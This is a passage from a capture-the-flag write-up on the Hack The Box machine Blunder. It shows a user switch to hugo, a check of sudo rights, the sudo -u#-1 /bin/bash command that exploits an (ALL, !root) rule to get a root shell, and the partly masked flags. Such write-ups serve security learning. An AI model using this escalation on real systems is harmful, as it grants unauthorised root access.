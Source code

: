 ```shell
su hugo
```

After entering the password we escalate to hugo

## Privilege Escalation

We are now hugo in the box and let’s check what commands we can run.

```bash
sudo -l
```

Recently a vulnerability was found which leads to sudo access by exploiting (ALL, !root) /bin/bash. Let’s check google for it.

We have this local privilege escalation exploit.

We need to run sudo -u#-1 /bin/bash in our shell and we should be root.

```shell
sudo -u#-1 /bin/bash
```

And we are root.

## Flags

```bash
cat /home/hugo/user.txt
ed3d4ce21c7c160..09eee74296ef
cat /root/root.txt
b1c741506b69db3..3b52e2cca794
```

Hope you like this small write-up on Blunder from hackthebox.

```

```
